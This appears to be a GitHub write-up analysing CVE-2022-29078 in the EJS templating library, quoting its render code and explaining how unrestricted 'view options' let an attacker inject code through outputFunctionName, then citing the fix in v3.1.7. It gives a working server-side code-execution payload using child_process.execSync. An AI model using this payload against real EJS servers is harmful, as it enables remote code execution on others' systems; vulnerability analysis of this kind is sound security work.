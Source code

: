 CVE-2022-29078

# The analysis

The render function

```javascript
exports.render = function (template, d, o) {
  var data = d || {};
  var opts = o || {};

  // No options object -- if there are optiony names
  // in the data, copy them to options
  if (arguments.length == 2) {
    utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA);
  }

  return handleCache(opts, template)(data);
};
```

[libs/ejs.js:413](https://github.com/mde/ejs/blob/80bf3d7dcc20dffa38686a58b4e0ba70d5cac8a1/lib/ejs.js#L413-L424)

It only copies the data if it’s in the passed list defined

```javascript
var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];
```

Take a look at ``renderFile`` function

```javascript
// Undocumented after Express 2, but still usable, esp. for
// items that are unsafe to be passed along with data, like `root`
viewOpts = data.settings['view options'];
if (viewOpts) {
    utils.shallowCopy(opts, viewOpts);
}
```

[libs/ejs.js:471](https://github.com/mde/ejs/blob/80bf3d7dcc20dffa38686a58b4e0ba70d5cac8a1/lib/ejs.js#L471-L476)

``view options`` ejs will copy everything into the options without restrictions

```javascript
prepended +=
    '  var __output = "";\n' +
    '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```

If we injected code in the ``outputFunctionName`` option it will included in the source code

payload: ``x;process.mainModule.require('child_process').execSync('touch /tmp/pwned');s``

It will be like this 
``var x;process.mainModule.require('child_process').execSync('touch /tmp/pwned');s= __append;``

# Fix & Mitigation

Ejs already issued a [fix](https://github.com/mde/ejs/commit/15ee698583c98dadc456639d6245580d17a24baf) to prevent injecting any code in the options especially ``opts.outputFunctionName``

and they released [v3.1.7](https://github.com/mde/ejs/releases/tag/v3.1.7)
